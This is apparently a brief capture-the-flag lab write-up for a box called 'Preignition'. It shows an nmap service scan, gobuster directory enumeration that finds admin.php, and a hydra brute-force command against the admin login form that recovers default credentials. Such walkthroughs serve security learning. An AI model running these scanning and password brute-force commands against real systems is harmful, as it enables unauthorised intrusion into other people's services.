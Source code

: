 # Preignition
## Nmap
`sudo nmap -vvv -sV 10.129.43.181`
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 nginx 1.14.2
```

Port 80 open, so opened web browser and went to the url. 

Page was showing default nginx page. 

## Gobuster
`gobuster dir -u 10.129.43.181 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt `

```
admin.php found
```

Moved to admin.php page and it required id and password. 

## Hydra
`sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.43.190 http-post-form "/admin.php:username=admin&password=^PASS^:Wrong username or password." -vV -f`
```
[80][http-post-form] host: 10.129.43.190   login: admin   password: admin
```
[how to bruteforce using hydra](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/)

